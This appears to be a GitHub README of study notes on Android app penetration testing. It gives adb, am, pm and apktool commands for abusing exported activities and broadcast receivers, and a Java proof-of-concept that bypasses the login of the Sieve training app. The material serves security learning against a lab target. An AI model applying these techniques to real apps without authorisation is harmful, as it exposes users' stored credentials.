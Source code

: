 ### STUFFS TAUGHT:
  - Abusing exported(explicit) and implicit(intents) activities
  - Intent Sniffing
  - Broadcast receiver hacking

### GENERAL COMMANDS:
  - show running ports in linux: `netstat -tulpen`
  - unzip .apk file: `unzip <file.apk>`
  - telnetting into AVD(one created with android studio):
    - `telnet 127.0.0.1:5554`
    - `auth <auth token excluding the % delimiter (location will be printed)>`
    - `help [command]`

### ADB COMMANDS:
  - print available devices: `adb devices`
  - ways to connect to an android device with adb:
    - `adb shell` 
    - `adb -s <serial number from "adb devices" command>`
    - `adb connect <ip address>`
  - port forwarding: `adb forward tcp:<src_pc_port> tcp:<dest_android_port>`
  - port reversing: `adb reverse tcp:<src_android_port> tcp:<dest_pc_port>`
  - push a file: `adb [-s <device_name>] push <file> /sdcard/ | <dest>`
  - kill adb server: `adb kill-server`
  - install apk: `adb install <filename.apk>`
  - pull a file: `adb pull <file> <dest>`
  - print logcat: `adb logcat`

### ADB SHELL COMMANDS (commands to be executed inside the android device's shell):
  - list apks installed: `pm list packages`
  - list apks installed with its UID(user id): `pm list packages -U`
  - print path of an android package installed: `pm path <packagename>`
  - input text to device: `input text <your_text>`
  - start an activity (implicit intent): `am start-activity -a <action_name> -c <category_name>`
    - Example: `am start-activity -a com.apphacking.changePin -c "android.intent.category.DEFAULT"`
  - start an activity with key and value(of a string) passed to an implicit intent: `am start-activity -a <action_name> -c <category_name> --es "<key>" "<value>"`
    - Example: `am start-activity -a com.apphacking.changePin -c "android.intent.category.DEFAULT" --es "username" "admin"`
    - **NOTE**: In case there are multiple applications that could react to this intent, the device shows a list of apps the user can forward the request to
  - start an activity (explicit intent): `am start-activity -n <package_name>/.<activity_name>`
    - Example: `am start-activity -n com.mwr.example.sieve/.FileSelectorActivity`
    - **NOTE**:
      - `<package_name>` & `<activity_name>` can be found inside the decompiled **AndroidManifest.xml** file obtained using **apktool**.
      - This is possible only if activity is exported(explicit) or if an intent(implicit) is encapsulated
      - Intent sniffing is not possible as explicit intents are targeted within an application and aren't broadcast to other apps
      - A formal way to trigger(in case of demonstrating the vulnerability as a POC) this activity is to create an app and start it as follows:
        > ```java
        > // following code is also present at .\pocs\sieve\SieveLoginBypass
        > // "empty activity" template selected in android studio
        > package com.hacking.sieveloginbypass;
        > import androidx.appcompat.app.AppCompatActivity;
        > 
        > import android.content.ComponentName;
        > import android.content.Intent;
        > import android.os.Bundle;
        > 
        > public class MainActivity extends AppCompatActivity {
        > 
        >  @Override
        >  protected void onCreate(Bundle savedInstanceState) {
        >    super.onCreate(savedInstanceState);
        >    setContentView(R.layout.activity_main);
        > 
        >    // code - to start the following Activity
        >    // com.mwr.example.sieve / .PWList
        >    Intent intent = new Intent();
        >    //intent.setComponent(new ComponentName("<package_name>","<package_name>.<class_name who's exported/intent encapsulated>"));
        >    intent.setComponent(new ComponentName("com.mwr.example.sieve","com.mwr.example.sieve.PWList"));
        >    startActivity(intent);
        >  }
        > }
        > ```
  - Trigger a broadcast event as a different user: `am broadcast --user <uid> -a <action_name>`
  - Trigger a broadcast event with key and value(of a string): `am broadcast -a <action_name> --es "<key>" "<value>"`
  - Trigger a broadcast event: `am broadcast -a <action_name>`
    - Example: `am -a android.intent.action.BOOT_COMPLETED`
    - **NOTE**:
      - Doing this artificially will let all applications receive the action triggered if a broadcast receiver is setup in code or in the AndroidManifest.xml file
      - Some broadcast event needs root permission to be triggered
      - As mentioned previously, we need a poc application for demonstration if a vulnerability is present(refer pocs/BroadcastHacking/ source)

### APKTOOL COMMANDS:
  - decompile apk using apktool: `apktool d <filename.apk>`
  - build apk using apktool: `apktool b <folder_path>/`

### MISC NOTES:
  - **ADB SHELL COMMANDS**:
    - location of start folder in android devices(non rooted): `/sdcard/`
    - location of Android/data folder (non rooted); `/sdcard/Android/data` 
    - location of Android/data folder (rooted); `/storage/emulator/0/Android/data` 
    - using sharedprefs object in code used to create contents inside `/data/data/<app_dir>` that is only accessible by root or the application itself
  - **ADB COMMANDS**:
    - hidden folder in linux: `/home/$(whoami)/.android/`
  - cryptography key verification: pub key in `/home/$(whoami)/.android/adbkey.pub` present in pc and pub key in `/data/misc/adb/adb_keys` present in android device(readable only if rooted) must be equal
